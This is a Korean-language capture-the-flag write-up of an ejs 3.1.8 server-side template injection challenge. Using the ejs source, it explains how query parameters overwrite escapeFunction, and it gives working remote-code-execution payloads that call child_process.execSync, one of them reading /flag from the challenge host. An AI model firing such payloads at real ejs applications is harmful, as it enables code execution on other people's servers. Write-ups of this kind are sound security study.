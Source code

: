 # ejs@3.1.8
https://dreamhack.io/wargame/challenges/675
## Description
find bug and exploit !

# Exploit
## Find bug
```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/', (req,res) => {
    res.render('index', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```
client에게 EJS렌더링에 대해 무제한 엑세스 권한을 부여해 취약점이 발생한다.    
https://github.com/mde/ejs/blob/main/SECURITY.md
<br><br>

### ejs@3.1.6
```js
if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
          opts.views = data.settings.views;
        }
        if (data.settings['view cache']) {
          opts.cache = true;
        }
        viewOpts = data.settings['view options'];
        if (viewOpts) {
          utils.shallowCopy(opts, viewOpts);
        }
      }
```
`opts`에 원하는 값을 넣을 수 있다.
<br><br>

```js
if (opts.outputFunctionName) {
  if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) {
    throw new Error('outputFunctionName is not a valid JS identifier.');
  }
  prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
즉 `opts.outputFunctionName`을 덮어쓸수 있었다.       
https://eslam.io/posts/ejs-server-side-template-injection-rce/

###  > ejs@3.1.6
```js
compile: function (){

    // ~~~

    // Line 580
    var escapeFn = opts.escapeFunction;

    // ~~~

    // Line 591
    if (opts.outputFunctionName){
        if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
          throw new Error('outputFunctionName is not a valid JS identifier.');
      
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }

    // ~~~

    // Line 636
    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }

    // ~~~
}
```
https://github.com/mde/ejs/blob/5b13088c6de0bff1ce5c6ff2eef7ee7eff0d6f3e/lib/ejs.js#L571
<br><br>

```js
if (opts.outputFunctionName){
    if (!_JS_IDENTIFIER.test(opts.outputFunctionName)) 
      throw new Error('outputFunctionName is not a valid JS identifier.');
  
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
유저가 직접 사용가능한 `opts.escapeFunction`같은 함수는 `if (!_JS_IDENTIFIER.test(opts.outputFunctionName))`으로 검사한다. 
<br><br>

```js
var escapeFn = opts.escapeFunction;
```
하지만 `opts.escapeFunction`은 이미 `escapeFn`에 저장되어있다.
<br><br>

```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```
`opts.client`가 `true`라면 컴파일엔 `escapeFn.toString()`가 담긴다.

### Payload
`?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("calc");`
<br><br>

## Exploit
`http://host3.dreamhack.games:<PORT>/?settings[view options][client]=true&settings[view options][escapeFunction]='x';return process.mainModule.require('child_process').execSync("cat /flag");`

# Reference
[blog.huli.tw](https://blog.huli.tw/2023/06/22/en/ejs-render-vulnerability-ctf/)     
[Web-127-CODEGATE-Music-Player-30-solves](https://nanimokangaeteinai.hateblo.jp/entry/2023/06/19/120016#Web-127-CODEGATE-Music-Player-30-solves)    
[Github issue](https://github.com/mde/ejs/issues/735)    
[Github issue](https://github.com/advisories/GHSA-j5pp-6f4w-r5r6)    